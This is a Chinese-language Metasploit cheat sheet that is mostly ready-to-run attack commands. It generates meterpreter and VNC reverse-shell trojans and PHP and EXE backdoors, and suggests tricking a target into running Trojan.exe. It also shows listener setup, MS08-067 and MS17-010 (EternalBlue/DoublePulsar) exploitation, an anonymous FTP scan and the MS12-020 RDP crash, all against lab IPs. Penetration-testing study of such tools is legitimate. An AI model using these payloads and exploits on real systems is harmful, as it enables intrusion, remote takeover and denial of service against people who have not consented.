 # Metasploit

| 编撰人 | 日期       | 版本 |
| ------ | ---------- | ---- |
| Khazix | 2018-01-21 | 初始 |

## Payload

- 正向连接

``` msf
use windows/meterpreter/bind_tcp
set rhost 192.168.137.130
set rport 444
generate -t exe -f Trojan.exe
ls
```

生成 Trojan.exe 放给对方主机诱导点击运行

- 反向连接

可以绕过防火墙，缺点是容易暴露自己ip，需要对方和自己网络能通

``` msf
use windows/meterpreter/reverse_tcp
set lhost 192.168.137.130
set lport 444
generate -t exe -f Trojan.exe
ls
```

- 后门利用

正向连接

``` msf
use exploit/multi/handler
set rhost 192.168.137.130
set rport 444
run
```

反弹监听

``` msf
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.137.130
set LPORT 444
run
```

## msfvenom

msfvenom 和 msfconsole里的 generate 是一样的，不过参数有变化

- 生成php木马

``` sh
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.137.130 lport=444 -f raw -o a.php
```

- 生成vnc木马

图形界面的木马

``` sh
msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.137.128 lport=444 -f exe -o vnc.exe
```

监听反弹

``` msf
use exploit/multi/handler
set payload windows/vncinject/reverse_tcp
set lport 444
```

如果希望鼠标操作对方窗口

``` msf
set viewOnly  FALSE
```

- 生成metapreter木马

``` msf
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.137.130
set lport 444
run
```




## 辅助命令

- 使用 postgresql 缓存加速搜索

``` sh
service postgresql start
msfdb reinit
```

``` msf
db_rebuild_cache
```

- 查看exploit 和 payload

``` msf
show exploit
show payload
```

## MS08-067

Samba 相对路径溢出攻击

- 信息收集

结合nmap扫描漏洞

``` msf
db_nmap -sS -p445 192.168.137.128
services
vulns
```

- 执行攻击

``` msf
search ms08-067
use exploit/windows/smb/ms08_067_netapi
info
set target 34
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.137.128
set lport 444
```

## FTP匿名登陆

search选项

- app       :  Modules that are client or server attacks
- author    :  Modules written by this author
- bid       :  Modules with a matching Bugtraq ID
- cve       :  Modules with a matching CVE ID
- edb       :  Modules with a matching Exploit-DB ID
- name      :  Modules with a matching descriptive name
- platform  :  Modules affecting this platform
- ref       :  Modules with a matching ref
- type      :  Modules of a specific type (exploit, auxiliary, or post)

``` msf
search cve-2017
use auxiliary/scanner/ftp/anonymous
info
set rhost 192.168.137.128
run
```

## MS17-010

著名的勒索病毒：永恒之蓝

- 探测漏洞

``` msf
search ms17-010
use auxiliary/scanner/smb/smb_ms17_010
info
show missing
run
```

不过这里msf自带的对中国的电脑并不是很好使，用github上的ruby脚本

``` sh
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
cp Eternalblue-Doublepulsar-Metasploit/eternalblue_doublepulsar.rb 
show targets
set target 0
```


## MS12-020

远程桌面拒绝服务漏洞，效果是开启远程桌面的主机变成蓝屏，不造成实质影响

- 扫描探测

``` msf
search ms12-020
use auxiliary/scanner/rdp/ms12_020_check
show missing
set rhost 192.168.137.130
```

- 执行攻击

``` msf
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
set RHOST 192.168.137.130
run
```

## 相关链接

https://www.sec-wiki.com/
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits




